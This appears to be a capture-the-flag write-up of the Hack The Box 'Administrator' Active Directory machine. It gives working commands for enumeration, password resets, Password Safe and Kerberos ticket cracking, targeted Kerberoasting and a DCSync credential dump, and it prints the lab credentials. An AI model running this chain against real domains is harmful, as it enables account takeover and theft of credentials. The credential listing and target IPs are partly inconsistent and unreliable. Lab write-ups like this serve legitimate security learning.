




# Hack The Box - Administrator



Administrator is a Windows Active Directory box that starts with supplied credentials, moves through password reuse and a password-safe file, and ends with domain compromise via targeted Kerberoasting and DCSync.

## Reconnaissance

I began with a full port scan to identify the exposed services.

```bash
nmap -p- --min-rate 10000 -oA scans/administrator-alltcp 10.10.11.133
nmap -p 21,53,88,135,139,389,445,464,593,636,3268,3269,47001,5985,9389,49664,49665,49666,49667,49668,57268,57273,57284,57298,60937 -sCV -oA scans/administrator-services 10.10.11.133
```

The scan showed a Windows Domain Controller for `administrator.htb`, with the hostname `DC.administrator.htb`.

```text
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http
636/tcp   open  tcpwrapped
3268/tcp  open  ldap
3269/tcp  open  tcpwrapped
47001/tcp open  http
5985/tcp  open  http
9389/tcp  open  mc-nmf
```

The TLS and service information confirmed a domain controller, so I added both the domain and host to my hosts file.

## Initial Access

This box came with initial credentials:

```text
olivia : ichliebedich
```

I used those credentials to collect domain data with BloodHound.

```bash
bloodhound-python -c ALL \
  -u olivia \
  -p 'ichliebedich' \
  -dc dc.administrator.htb \
  -dns-tcp \
  --dns-timeout 10 \
  -ns 10.129.136.110 \
  -d administrator.htb
```



The output confirmed the expected domain structure and showed a path from `Olivia` to `Michael`, then to `Benjamin`, and later to `Emily` and `Ethan`.

## Privilege Escalation

### First Account Takeover

BloodHound showed that `Olivia` could reset the password of `Michael`. I used `net rpc password` to change it:

```bash
net rpc password 'Michael' 'Helloworld123$' \
  -U 'Administrator.htb/Olivia%ichliebedich' \
  -S 'dc.administrator.htb'
```

Then I used `Michael`’s new password to reset `Benjamin`’s password as well:

```bash
net rpc password 'Benjamin' 'Helloworld123$' \
  -U 'Administrator.htb/Michael%Helloworld123$' \
  -S 'dc.administrator.htb'
```

That gave me access as `Benjamin`.

## FTP Access

### Password Safe File

The machine exposed FTP, which is unusual for a domain controller. Using the credentials for `Benjamin`, I logged in and found a file named `Backup.psafe3`.

```bash
ftp administrator.htb
```

Inside the FTP session, I listed and downloaded the file:

```text
ftp> ls
10-05-24  08:13AM                  952 Backup.psafe3

ftp> get Backup.psafe3
```

The `.psafe3` extension suggested a Password Safe database, so I extracted a crackable hash from it.

```bash
pwsafe2john Backup.psafe3 > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --fork=10 hash
```

That cracked the database password:

```text
tekieromucho
```

### Credentials From the Safe

After opening the safe, I recovered three credential sets and saved them in a note:



```text
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emma:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

I returned to BloodHound to see what those accounts could do. The important path was that `Emily` had an edge to `Ethan`, and `Ethan` could later be used for DCSync.



## Targeted Kerberoast

### Ethan Kerberoast

`Emily` had `GenericWrite` over `Ethan`, so I used targeted Kerberoasting to set an SPN on `Ethan`, request a ticket, and crack it.

Because Kerberos is time-sensitive and the DC was 7 hours ahead, I used `faketime`:

```bash
faketime -f +7h python targetedKerberoast.py \
  -d 'administrator.htb' \
  -u 'emily' \
  -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' \
  --request-user ethan
```

That produced a crackable TGS hash for `ethan`.

I then cracked it with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --fork=10 ethan_hash
```

The cleartext password was:

```text
limpbizkit
```

## Domain Compromise

### DCSync

With `Ethan`’s credentials, I used `secretsdump` to pull the domain hashes:

```bash
impacket-secretsdump 'Administrator/ethan:limpbizkit@dc.administrator.htb'
```

That dumped the domain credentials, including the `Administrator` hash.

### Final Access

With the `Administrator` hash, I could open an interactive session on the DC and collect the final flag.

## Attack Path

- **Scan the host** — identify the domain controller and its services.
- **Start with supplied creds** — log in as `olivia`.
- **Map the domain** — use BloodHound to find abuse paths.
- **Reset passwords** — take over `Michael`, then `Benjamin`.
- **Use FTP** — retrieve `Backup.psafe3`.
- **Crack the safe** — recover additional credentials.
- **Targeted Kerberoast** — abuse `Emily`’s control over `Ethan`.
- **Crack the ticket** — recover `ethan`’s password.
- **DCSync** — dump domain hashes with `Ethan`.
- **Win the box** — use the Administrator hash for full compromise.
